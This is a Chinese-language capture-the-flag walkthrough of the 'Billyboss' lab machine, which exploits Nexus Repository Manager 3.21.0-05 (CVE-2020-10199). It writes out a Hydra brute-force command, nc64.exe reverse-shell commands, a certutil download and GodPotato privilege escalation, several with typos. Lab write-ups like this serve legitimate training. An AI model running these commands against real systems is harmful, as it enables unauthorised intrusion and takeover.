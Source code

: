 ```yaml
---
description: Windows / 中等难度 / Nexus Repository Manager OSS 3.21.0-05
---
```


# ✔️ Billyboss

## 建立立足点

### 信息枚举

* 使用Nmap针对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA billyboss 192.168.250.61
```

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-02-58.png" alt=""><figcaption></figcaption></figure>

* 同时也可直接尝试看看目标系统是否有web页面，本例的80端口正运行着一个叫BaGet的应用程序，可做一些常规的信息收集：

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-00.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-28.png" alt=""><figcaption></figcaption></figure>

* 通过Nmap的扫描结果，发现目标还有一个8081的开放端口，也正在运行着HTTP服务，依次查看相关网页内容，确定当前正运行的是Nexus Repository Manager OSS 3.21.0-05的应用程序：

<figure><img src="../.gitbook/assets/4 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (4).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch扫描一下该端口上还有没有其他的隐藏目录/文件：

<figure><img src="../.gitbook/assets/7 (5).png" alt=""><figcaption></figcaption></figure>

* 发现一个/swagger-ui，看它大小不抱什么希望，果然没什么东西：

<figure><img src="../.gitbook/assets/8 (5).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 因为此时已经获得了应用程序的版本号，查阅公开漏洞库发现了可能可以利用的漏洞脚本：

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本后，发现几个需要修改的地方：

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是在之前的信息枚举的过程中完全没有发现任何可利用用户凭证信息，所以决定使用Hydra进行爆破：

1. 先用BurpSuite拦截一下POST表单查看路径和用户名、密码处的格式：

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

2. 用户名密码处用Base64编码了，在构造hydra命令时应注意用:username=<mark style="color:red;">**^USER64^**</mark>spassw0rd=<mark style="color:red;">**^PASS64^**</mark>：

```bash
# 使用Hydra的爆破时间实在是太长，需要准备一些更好的username和password字典文件
hydra -L /usr/share/secLists/Usernames/Names/names.txt -P /usr/share/SecLists/Passwords/common-credentials/10k-most-common.txt
192.168.250.61 -s 8081 http-post-form '/service/rapture/session:username=^USER64^spassw0rd=^PASS64^:Forbidden‘
```

* 因考虑到Hydra爆破耗时漫长，所以与此同时决定猜测弱口令，简单猜测几次后发现了有效凭证_<mark style="color:red;">**nexus:nexus  😄**</mark>_

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 此时已具备了可以修改漏洞脚本的基本项，但是还需要上传一个nc.exe程序，用于后续执行一个反弹shell回来：

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器的对应目录下，存放一个nc64.exe脚本并开启一个简单的服务器：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* nc64.exe程序上传成功：

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时，可再次修改脚本内容，用于执行反弹shell回连到Kali机器上：

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是返回后的信息显示了一个错误信息，我设置的命令被嵌套在好几个函数中：

<figure><img src="../.gitbook/assets/20 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用反斜杠逃逸：

```bash
.\\\\nc64.exe 192.168.45.158 4444 -e cmd.exe
```

<figure><img src="../.gitbook/assets/21 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听端口接收到了回连的shell，此时getshell并获得了flag：

<figure><img src="../.gitbook/assets/22 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/23 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息枚举

* 先手工进行简单的信息收集：

<figure><img src="../.gitbook/assets/24 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/25 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 本例中决定使用提权工具GodPotato，但是得先确定目标系统的.NET框架的版本号，得知为4.0版本：

```powershell
reg query "HKEY_L0CAL_MACHINE\S0FTWARE\Microsoft\NET Framework Setup\NDP"
```

<figure><img src="../.gitbook/assets/26 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 下载GodPotato-NET4.exe，然后将工具传到目标系统中：

<figure><img src="../.gitbook/assets/27 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
certutil -split -f -urlcache http://192.168.45.158/GodPotato-NET4.exe
```

<figure><img src="../.gitbook/assets/28 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传成功后，执行一下GodPotato-NET4.exe程序，看看是否可以成功执行：

<figure><img src="../.gitbook/assets/29 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 此时，将GodPotato-NET4.exe程序的\`-cmd\`参数的值修改为调用刚才上传的nc64.exe程序以执行一个反弹shell回连至Kali本机中：

```powershell
.\GodPotato-NEr4.exe -cmd "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.158 8888 -e cmd.exe"
```

<figure><img src="../.gitbook/assets/30 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得ROOT flag：

<figure><img src="../.gitbook/assets/31 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例算中等偏难的机器，锁定可利用的漏洞和提权时都不难，但是其实现过程中需要根据实际情况进行修改和变通。

CVE-2020-10199
{% endhint %}
